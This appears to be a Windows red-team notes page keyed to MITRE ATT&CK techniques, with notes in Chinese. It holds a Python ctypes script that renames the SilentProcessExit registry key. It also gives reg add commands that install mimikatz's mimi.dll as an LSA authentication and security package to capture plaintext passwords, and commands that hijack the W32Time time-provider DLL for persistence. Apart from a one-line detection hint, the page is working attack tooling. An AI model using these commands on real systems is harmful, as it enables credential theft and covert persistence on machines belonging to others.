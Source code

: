 ```bash
import ctypes
from ctypes import *
from ctypes.wintypes import *
import sys

help = """python2 {}.py rename_key "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" "123123"\n""".format(sys.argv[0])
help += """python2 {}.py rename_key "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\123123" "SilentProcessExit"\n""".format(sys.argv[0])

list1 = {"hkcr":-2147483648,"hkcu":-2147483647,"hklm":-2147483646,"hkus":-2147483645,"hkcc":-2147483643}

def rename_key(reg_handle, key,key2):
    key_handle = HKEY()
    key_result = DWORD()
    a = ctypes.windll.Advapi32.RegCreateKeyExA(reg_handle, key, 0, None, 0x00000000, 0xF003F, 0, byref(key_handle),byref(key_result))
    print(a)
    c = ctypes.windll.Advapi32.RegRenameKey(key_handle, 0,LPCWSTR(key2))
    print(c)

if __name__ == "__main__":
    if len(sys.argv) != 1:
        if sys.argv[1] == "rename_key":
            str = sys.argv[2].split("\\",1)
            rename_key(list1[str[0]],str[1],sys.argv[3])
        else:
            print(help)
    else:
        print(help)
```

# T1547.002&&005 (modify authentication packages)

reg add "hklm\\system\\currentcontrolset\\control\\lsa\\" /v "authentication packages" /d "C:\\Users\\congya\\desktop\\mimi.dll" /t REG\_MULTI\_SZ  
reg add "hklm\\system\\currentcontrolset\\control\\lsa\\" /v "Security Packages" /d "C:\\Users\\congya\\desktop\\mimi.dll" /t REG\_MULTI\_SZ  
这个 mimi.dll 就是 mimikatz 里面的，将此 dll 修改到注册表中，重启后会看见相关密码明文（C:\\Windows\\system32\\kiwissp.log）  
检测方式，对相关注册表进行检测

# T1547.003 (modify time providers)

reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\W32Time\\TimeProviders\\NtpClient" /v DllName /t REG\_EXPAND\_SZ /d "C:\\Users\\axingg\\Downloads\\w32time.dll"  
reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\W32Time\\TimeProviders\\NtpServer" /v DllName /t REG\_EXPAND\_SZ /d "C:\\Users\\axingg\\Downloads\\w32time.dll"  